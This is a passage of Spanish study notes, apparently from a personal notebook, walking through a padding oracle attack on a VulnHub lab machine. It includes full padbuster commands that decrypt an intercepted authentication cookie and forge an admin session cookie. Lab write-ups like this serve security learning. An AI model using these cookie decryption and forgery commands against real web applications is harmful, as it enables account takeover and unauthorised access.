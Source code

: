 Para explotar esta vulnerabilidad, podemos usar la máquina padding oracle de vulnhub:
![[Mis apuntes/ANEXOS/Pasted image 20230706155433.png]]
Lo instalamos en máquina virtual y lo ejecutamos:
![[Mis apuntes/ANEXOS/Pasted image 20230706155550.png]]
Y aquí encontramos la IP de la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230706155647.png]]
Hacemos un breve reconocimiento y vemos que tiene el puerto 80 abierto:
![[Mis apuntes/ANEXOS/Pasted image 20230706155909.png]]
Y vemos un servicio HTTP en funcionamiento:
![[Mis apuntes/ANEXOS/Pasted image 20230706160018.png]]
Probamos en registrarnos tal y como nos dice la web:
![[Mis apuntes/ANEXOS/Pasted image 20230706160612.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230706160631.png]]
Ahora vamos a salir de este login y volvemos al panel de logueo, donde vamos a volver a interceptar la petición con burpsuite (recargando la página) y en burpsuite tenemos una cookie de autenticación:
![[Mis apuntes/ANEXOS/Pasted image 20230706161456.png]]
Y ahora con este código, podemos intentar descifrarlo con una herramienta llamada padbuster, poniendo estos parámetros y con un 8, aunque se pueden ir probando con distintos números:
```bash
padbuster http://192.168.0.24/login.php %2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm 8 --cookies auth=%2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm -encoding 0
```
![[Mis apuntes/ANEXOS/Pasted image 20230706161721.png]]
Y al ejecutarlo nos pregunta, esto, donde nos recomiendan poner el 2, que es lo que pondremos:
![[Mis apuntes/ANEXOS/Pasted image 20230706161853.png]]
Y nos ha descifrado el usuario:
![[Mis apuntes/ANEXOS/Pasted image 20230706161923.png]]
## Obteniendo cookie de sesión de un usuario
Una vez hayamos hecho esto, podremos también obtener una cookie de sesión de algún usuario registrado en el sistema, por ejemplo del usuario admin, por lo que utilizaremos estos otros parámetros:
```bash
padbuster http://192.168.0.24/login.php %2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm 8 --cookies auth=%2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm -encoding 0 -plaintext 'user=admin'
```
Y nos habrá generado una cookie de sesión para el usuario admin:
![[Mis apuntes/ANEXOS/Pasted image 20230706162314.png]]
Por tanto ahora vamos a pegar esta cookie dentro del navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230706162411.png]]
Recargamos la página y seremos el usuario admin:
![[Mis apuntes/ANEXOS/Pasted image 20230706162456.png]]

